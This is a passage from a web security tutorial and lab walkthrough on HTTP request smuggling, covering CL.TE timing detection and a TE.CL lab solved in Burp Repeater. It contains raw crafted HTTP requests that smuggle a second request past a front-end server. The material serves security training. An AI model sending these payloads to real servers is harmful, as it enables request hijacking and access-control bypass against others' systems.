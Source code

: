 ```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

Since the front-end server uses the *Transfer-Encoding* header, it will forward only part of this request, omitting the *X*. The back-end server uses the *Content-Length* header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

**Solution**

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

The second request should receive an HTTP 404 response.

## Confirming HTTP request smuggling vulnerabilities using differential responses

When a probable request smuggling vulnerability has been detected, you can obtain further evidence for the vulnerability by exploiting it to trigger differences in the contents of the application's responses. This involves sending two requests to the application in quick succession:
